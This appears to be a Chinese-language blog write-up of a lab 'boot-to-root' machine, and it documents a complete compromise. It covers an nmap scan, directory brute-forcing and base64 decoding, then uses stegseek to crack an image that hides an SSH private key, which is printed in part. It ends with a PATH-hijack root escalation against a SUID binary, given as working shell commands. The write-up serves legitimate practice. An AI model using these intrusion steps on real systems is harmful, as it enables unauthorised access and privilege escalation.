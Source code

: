```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [hack]
---
```

### 主机发现

```shell
192.168.30.133
```

### 信息收集

```shell
└─$ nmap -sV -A 192.168.30.133
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-22 03:26 EST
Nmap scan report for 192.168.30.133
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|   256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_  256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

查看80端口

![image-20240222162800682](../assets/img/old_imgs/image-20240222162800682.png)

浏览发现没有明显信息，同步目录爆破

```shell
PS C:\Users\qianenzhao> dirsearch.exe -u 192.168.30.133:80

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\qianenzhao\reports\_192.168.30.133_80\_24-02-22_16-23-32.txt

Target: http://192.168.30.133/

[16:23:32] Starting:
[16:23:33] 403 -  279B  - /.ht_wsr.txt
[16:23:33] 403 -  279B  - /.htaccess.bak1
[16:23:33] 403 -  279B  - /.htaccess.sample
[16:23:33] 403 -  279B  - /.htaccess_extra
[16:23:33] 403 -  279B  - /.htaccess.save
[16:23:33] 403 -  279B  - /.htaccess_orig
[16:23:33] 403 -  279B  - /.htaccess_sc
[16:23:33] 403 -  279B  - /.htaccessBAK
[16:23:33] 403 -  279B  - /.htaccessOLD2
[16:23:33] 403 -  279B  - /.htaccess.orig
[16:23:33] 403 -  279B  - /.htaccessOLD
[16:23:33] 403 -  279B  - /.htm
[16:23:33] 403 -  279B  - /.html
[16:23:33] 403 -  279B  - /.htpasswd_test
[16:23:33] 403 -  279B  - /.httr-oauth
[16:23:33] 403 -  279B  - /.htpasswds
[16:23:34] 403 -  279B  - /.php
[16:23:57] 200 -   33B  - /robots.txt
[16:23:57] 403 -  279B  - /server-status/
[16:23:57] 403 -  279B  - /server-status

Task Completed
```

发现存在robots.txt页面

访问得到如下字符`eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=`

解密得到`you find the hidden dir`

目录爆破无果，审计网站代码

![image-20240222163252652](../assets/img/old_imgs/image-20240222163252652.png)

查找子域名无果，但是发现在末尾注释中存在这样一段字符```VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09```

经过三次`base64`解密得到字符串`DRAGON BALL`

利用这个字符串尝试访问网站目录

![image-20240222163457164](../assets/img/old_imgs/image-20240222163457164.png)

![image-20240222163544001](../assets/img/old_imgs/image-20240222163544001.png)

> secret.txt页面

![image-20240222164314069](../assets/img/old_imgs/image-20240222164314069.png)

无法通过`submit`交互，也无法直接跳转，但是查看源代码可知这个链接打开的图片与先前发现的图片名字一致，尝试下载先前那张图片寻找突破

![image-20240222164859400](../assets/img/old_imgs/image-20240222164859400.png)

常规`binwalk`等尝试无果，尝试使用工具进行爆破

```shell
┌──(kali㉿kali)-[~]
└─$ sudo stegseek ./Desktop/aj.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

得到密码，原文件名，打开发现是`ssh密钥`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat aj.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...略...
cYmthvUYneQMnt2czKF3XqEvXVPXmnbu9xt079Qu/xTYe+yHZAW5j7gzinVmrQEsvmdejq
9PpqvWzsLFnkXYEMWdKmmHqrauHOcH0hJtEmHuNxR6Zd+XjiRsPuBGxNRE22L/+j++7wxg
uSetwrzhgq3D+2QsZEbjhO+ViDtazKZVjewBCxm7O0NhPFFcfnwTOCDLg+U8Wd1uuVT1lB
Bd8180GtBAAaGtiwAAAAlrYWxpQGthbGk=
-----END OPENSSH PRIVATE KEY-----
```

该机器`ssh`端口已经暴露，尝试利用密钥`ssh`登陆，缺少用户名

回头看发现在登陆页面上有一个疑似用户名的关键词

![image-20240222180928831](../assets/img/old_imgs/image-20240222180928831.png)

搜索发现`xmen`指的是X战警，很有可能就是用户名

###获得立足点

![image-20240222181031980](../assets/img/old_imgs/image-20240222181031980.png)

😘成功得到立足点~

ps这里有个小细节,在利用密钥进行ssh登陆时,会对密钥文件有一个检测,如果该文件开放权限过高会拒绝我们的使用,如下:

![image-20240222181148990](../assets/img/old_imgs/image-20240222181148990.png)

解决办法就是更改该文件的权限:`chmod 600 filename`

### 提权

利用`find`命令查找`suid`提权

```shell
xmen@debian:~$ find / -perm -u=s -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

存在一个`shell`看上去就很可疑

```shell
xmen@debian:~/script$ ls
demo.c  shell
```

```c
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

甚至直接给出了源码,思路很清晰了,劫持环境变量提权

```shell
xmen@debian:~$ echo '/bin/sh' > /tmp/ps
xmen@debian:~$ chmod 777 /tmp/ps
xmen@debian:~$ export PATH=/tmp:$PATH
xmen@debian:~$ ./script/shell
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```

```shell
# cd /root
# ls
proof.txt
# cat proof.txt
   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```

👌拿下

last:看到《红队笔记》新一期讲解这个靶机来试试，个人感觉这台靶机就像是`ctf`做题的靶机，没有什么特别的难点疑点，了解常用路数加上`ctf`的一些知识`（misc）`轻松可以拿下haha，话是这么讲但是还是被图片隐写卡住了。



